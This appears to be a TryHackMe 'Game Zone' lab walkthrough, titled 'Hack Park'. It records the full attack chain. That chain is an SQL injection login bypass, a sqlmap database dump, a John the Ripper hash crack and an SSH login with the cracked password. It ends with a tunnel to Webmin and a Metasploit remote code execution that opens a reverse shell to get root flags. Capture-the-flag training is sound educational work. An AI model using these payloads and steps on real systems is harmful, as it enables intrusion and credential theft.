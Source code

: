 # Try Hack Me - Hack Park

![gamezone](gamezone.jpeg)

## Information
### Room URL
https://tryhackme.com/r/room/gamezone

### Target Machine IP
10.10.43.71

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.4.73.48

## Task 1 - Deploy the vulnerable machine
>Deploy the machine and access its web server.
>
>What is the name of the large cartoon avatar holding a sniper on the forum?

nmap -p- --min-rate 5000 -sV 10.10.43.71

![nmapResult](screenshots/nmapResult.png)

In a browser, attempt to connect to: http://10.10.43.71:80

![WebHomePage](screenshots/webHomePage.png)

Reverse image search the image of sniper dude

![reverseImageSearch](screenshots/reverseImageSearch.png)

Answer: Agent 47

## Task 2 - Obtain access via SQLi
>When you've logged in, what page do you get redirected to?

On the websites home page, the login form suggest a possible SQL injection vulnerability.

Entering ' or 1=1 -- - in the username and submitting allows login.

![loginsqli](screenshots/loginsqli.png)

![loginsuccess](screenshots/loginsuccess.png)

Answer: portal.php

## Task 3 - Using SQLMap
>In the users table, what is the hashed password?

Using the game search in portal.php, intercept the request using burpsuite

![burpsuiteintercept](screenshots/burpsuiteintercept.png)

Save the intercepted request to input to SQLMap

Run: sqlmap -r request.txt --dbms=mysql --dump

In the output we can see the hashed password stored in the DB for "agent47"

![hashedpw](screenshots/hashedpw.png)

Answer: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

>What was the username associated with the hashed password?

Answer: agent47

>What was the other table name?

![othertable](screenshots/othertable.png)

Answer: post

## Task 4 - Cracking a password with JohnTheRipper
>What is the de-hashed password?

Save the hashed password to a file "hash.txt"

If the hash format isnt easily recognisable, test it online at https://www.tunnelsup.com/hash-analyzer/

![hashanalyser](screenshots/hashanalyser.png)

Use JohnTheRipper to crack the hash:

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

![crackedhash](screenshots/hashcracked.png)

Answer: videogamer124

>What is the user flag?

Recall the nmap scan discovered an open SSH port (22). Use:

ssh agent47@10.10.43.71

to initiate the ssh connection. When prompted, enter "videogamer124" as the password.

![sshloggedin](screenshots/sshloggedin.png)

Find the flag at the current directory

![userflag](screenshots/userflag.png)

Answer: 649ac17b1480ac13ef1e4fa579dac95c

## Task 5 - Exposing services with reverse SSH tunnels
>How many TCP sockets are running?

Investigate the sockets running on the host using: ss -tulnp

![sstulpn](screenshots/ss-tulpn.png)

Answer: 5

>What is the name of the exposed CMS?

Of note from that socket scan, port 10000 was blocked by the firewall which can now be exposed:

ssh -L 10000:localhost:10000 agent47@10.10.43.71

Visit "http://localhost:10000"

![port10000](screenshots/port10000.png)

Answer: Webmin

>What is the CMS version?

Using the credentials already known (agent47:videogamer124) we can login to the CMS and view the version

![cmsversion](screenshots/webminversion.png)

Answer: 1.580

## Task 6 - Privilege Escalation with Metasploit
>What is the root flag?

On exploit-db we can find a RCE vulnerability:

https://www.exploit-db.com/exploits/21851

Search the vulnerability in metasploit

![metasploitsearch](screenshots/metasploitsearch.png)

Configure the exploit:

set PAYLOAD payload/cmd/unix/reverse
set RHOST localhost
set RPORT 10000
set USERNAME agent47
set PASSWORD videogamer124
set SSL false

Then run it

![meterpreter](screenshots/meterpreter.png)

Now change to ~ directory and look for flag

![rootflag](screenshots/rootflag.png)

Answer: a4b945830144bdd71908d12d902adeee

Room Complete :)